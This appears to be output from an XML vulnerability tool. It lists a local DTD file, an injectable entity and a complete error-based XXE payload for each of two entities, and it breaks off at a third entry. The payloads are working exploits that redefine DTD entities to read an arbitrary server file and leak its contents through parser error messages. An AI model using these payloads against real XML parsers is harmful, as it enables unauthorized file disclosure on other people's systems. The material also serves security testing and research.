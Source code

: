  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.delegatePublic.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.delegatePublic.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.delegateSystem.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.delegateSystem.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`
